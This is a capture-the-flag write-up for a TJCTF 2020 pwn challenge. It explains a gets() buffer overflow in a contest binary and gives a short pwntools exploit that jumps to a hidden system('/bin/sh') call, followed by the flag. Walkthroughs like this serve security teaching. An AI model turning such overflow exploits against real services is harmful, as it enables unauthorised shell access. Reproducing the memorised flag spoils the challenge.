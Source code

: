 # Seashells

> I heard there's someone selling shells? They seem to be out of stock
> though...  
>  
> nc p1.tjctf.org 8009

Attached is a binary.

## Description

First we use `checksec` to see which security features are enabled. There is
no PIE, nor canary, so exploit will probably be easy. Let's decompile the code
using Ghidra.

```c  
undefined8 main(void)  
{  
 int iVar1;  
 char local_12 [10];  
  
 setbuf(stdout,(char *)0x0);  
 setbuf(stdin,(char *)0x0);  
 setbuf(stderr,(char *)0x0);  
 puts("Welcome to Sally\'s Seashore Shell Shop");  
 puts("Would you like a shell?");  
 gets(local_12);  
 iVar1 = strcasecmp(local_12,"yes");  
 if (iVar1 == 0) {  
   puts("sorry, we are out of stock");  
 }  
 else {  
   puts("why are you even here?");  
 }  
 return 0;  
}  
```

So here is our buffer overflow: it only uses the `gets` function which
performs no boundary check.

Moreover, we see a function `shell`:

```c

void shell(long param_1)

{  
 if (param_1 == -0x2152350145414111) {  
   system("/bin/sh");  
 }  
 return;  
}  
```

Easily enough, we have the call to system. No PIE means we can know the
address of `shell` on the server, so the exploit is quite straightforward.

## Solution

With `gdb` we retrieve the address of the instructions corresponding to
`system("/bin/sh");` (we bypass the if statement), overflow the buffer and
jump there.

To find the offset, we also use gdb, filling the buffer with a cyclic pattern
and verify where we jump.

```python  
from pwn import *

sh = remote("p1.tjctf.org", 8009)

shell_addr = 0x00000000004006e3  
offset = 18

sh.recvuntil("hell?")  
payload = b'a'*offset + p64(shell_addr) + b'\x00'  
sh.sendline(payload)

sh.interactive()  
```

Flag: `tjctf{she_s3lls_se4_sh3ll5}`

Original writeup (https://github.com/apoirrier/CTFs-
writeups/blob/master/TJCTF2020/Pwn/Seeshells.md).